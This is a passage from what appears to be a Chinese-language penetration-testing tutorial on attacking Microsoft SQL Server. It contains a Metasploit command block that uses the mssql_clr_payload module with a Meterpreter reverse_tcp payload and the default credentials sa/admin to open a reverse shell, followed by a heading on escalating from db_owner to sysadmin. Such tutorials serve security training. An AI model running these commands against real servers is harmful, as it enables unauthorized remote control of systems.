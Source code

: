 可以看到用户已经成功添加![image.png](assets/1706232584-100ba174ac5306faf5a3cdda92078271.png)

### 使用 CLR 执行命令反弹 Shell

```php
use exploit/windows/mssql/mssql_clr_payload
set payload windows/meterpreter/reverse_tcp
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```

![image.png](assets/1706232584-ceb6da1faae3b856377f24a1ca4b0c3c.png)

### 从 db\_owner 到 sysadmin
